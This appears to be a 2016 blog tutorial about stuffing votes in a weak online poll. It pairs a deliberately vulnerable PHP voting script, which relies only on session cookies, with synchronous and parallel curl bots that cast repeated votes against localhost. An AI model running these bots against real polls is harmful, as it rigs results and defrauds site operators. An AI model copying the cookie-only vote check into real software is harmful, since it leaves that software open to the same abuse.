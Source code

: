 title: Synchronous vs Asynchronous voting bot
date: 2016-01-28 13:59:28
tags:
---

Hello, 
Today I will be writing about exploiting of vulnerable voting systems using Synchronous and Asynchronous requests. 

For purposes of example, we will also write simple vulnerable voting system in PHP. 

## Voting system

```PHP
<?php
session_start();

//Make it a little slower to emulate client-server latency, since tests are going to be done on localhost

sleep(1); //Sleep for 1s

//Check if voting link is called

if(isset($_GET["vote"])){
	//Check if user is just trying to vote without visiting voting page first

	if(isset($_SESSION["voted"])){
		//Check if user already voted

		if(!$_SESSION["voted"]){
			$_SESSION["voted"] = true;

			//Do something with vote (store to DB, etc.)
		}
		else
		{
			echo "error";
		}
	}
	else
	{
		echo "error";
	}
}

//If user visited for first time, store value for later check

if(!isset($_SESSION["voted"])){
	$_SESSION["voted"] = false;
}

```

So, basically, user will first call index.php and it will create $_SESSION["voted"] with value false. Then, user will call index.php?vote=[something] and it will, if $_SESSION["voted"] exists and is false count that as a vote. 

Now, what is problem with this script? Well, session id is stored in cookies on browser and if deleted, user will get new $_SESSION which does not contain $_SESSION["voted"]. 

## How do we exploit this? 

Well, we will just send request to get index.php with no cookies and after that, we will send new request to index.php?vote=[something] with cookies we got from previous request. 

## Synchronous using curl [PHP]

```PHP
<?php
$base_url = "http://localhost:8080/";

//Create dir for cookies, if it does not exist and make sure it is empty

shell_exec("mkdir -p ./cookies ; rm ./cookies/*");

for($i = 0; $i < getenv("VOTES_TO_GIVE"); $i++){
	//Send request to index.php

	$ch =  curl_init();

	curl_setopt($ch, CURLOPT_URL, $base_url);
	curl_setopt($ch, CURLOPT_COOKIEJAR, "./cookies/$i.txt");

	curl_exec($ch);

	curl_close($ch);

	//Send request to index.php?vote[something]

	$ch =  curl_init();

	curl_setopt($ch, CURLOPT_URL, $base_url."?vote=[something]");
	curl_setopt($ch, CURLOPT_COOKIEFILE, "./cookies/$i.txt");

	curl_exec($ch);

	curl_close($ch);
}

```

So, I tested this script and it tool 20,067s for 10 votes. 

## A little cheating with multi_curl [semi-Asynchronous, PHP]

PHP by itself does not support Asynchronous requests but curl library allow us to send multiple requests at the same time and get response when all of them finish. 

```PHP
<?php
$base_url = "http://localhost:8080/";

shell_exec("mkdir -p ./cookies ; rm ./cookies/*");

$mh = curl_multi_init();
$ch = [];

for($i = 0; $i < getenv("VOTES_TO_GIVE"); $i++){
	//Send requests to index.php

	$ch[] =  curl_init();

	curl_setopt($ch[count($ch)-1], CURLOPT_URL, $base_url);
	curl_setopt($ch[count($ch)-1], CURLOPT_COOKIEJAR, "./cookies/$i.txt");

	curl_multi_add_handle($mh, $ch[count($ch)-1]);
}

$active = null;

do {
	$mrc = curl_multi_exec($mh, $active);
} while ($mrc == CURLM_CALL_MULTI_PERFORM);

while ($active && $mrc == CURLM_OK) {
	if (curl_multi_select($mh) != -1) {
		do {
			$mrc = curl_multi_exec($mh, $active);
		} while ($mrc == CURLM_CALL_MULTI_PERFORM);
	}
}

for($i = 0; $i < getenv("VOTES_TO_GIVE"); $i++){
	curl_multi_remove_handle($mh, $ch[$i]);
}

curl_multi_close($mh);

$mh = curl_multi_init();
$ch = [];

for($i = 0; $i < getenv("VOTES_TO_GIVE"); $i++){
	//Send requests to index.php?vote=[something]

	$ch[] =  curl_init();

	curl_setopt($ch[count($ch)-1], CURLOPT_URL, $base_url."?vote=[something]");
	curl_setopt($ch[count($ch)-1], CURLOPT_COOKIEFILE, "./cookies/$i.txt");

	curl_multi_add_handle($mh, $ch[count($ch)-1]);
}

$active = null;

do {
	$mrc = curl_multi_exec($mh, $active);
} while ($mrc == CURLM_CALL_MULTI_PERFORM);

while ($active && $mrc == CURLM_OK) {
	if (curl_multi_select($mh) != -1) {
		do {
			$mrc = curl_multi_exec($mh, $active);
		} while ($mrc == CURLM_CALL_MULTI_PERFORM);
	}
}

for($i = 0; $i < getenv("VOTES_TO_GIVE"); $i++){
	curl_multi_remove_handle($mh, $ch[$i]);
}

curl_multi_close($mh);
?>
```

This one executed in 2,066s.  

**Note: While writing above code, I respected PHP Documentation, but that code never executed. Since curl_multi_select($mh) always return -1, you will have to remove it. **

